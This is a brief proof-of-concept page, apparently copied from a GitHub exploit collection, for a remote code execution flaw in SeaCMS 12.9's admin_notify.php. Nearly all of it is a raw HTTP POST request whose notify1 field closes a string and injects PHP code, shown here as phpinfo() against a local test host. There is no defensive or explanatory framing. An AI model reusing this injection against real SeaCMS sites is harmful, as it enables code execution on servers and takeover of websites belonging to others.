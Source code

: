 # seacms_admin_notify.php_rce

from: https://github.com/wy876/POC/blob/main/%E6%B5%B7%E6%B4%8BCMS-admin_notify.php%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

```
POST /SeaCMS_12.9/Upload/pwh4pc/admin_notify.php?action=set HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Priority: u=1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1/SeaCMS_12.9/Upload/pwh4pc/admin_notify.php
Sec-Fetch-Dest: document
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=8h9dt1md0b4ppcvdrjn64kfsum
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Mode: navigate
Origin: http://127.0.0.1
Accept-Encoding: gzip, deflate, br, zstd
 
notify1=1";phpinfo();;//&notify2=2&notify3=3
```
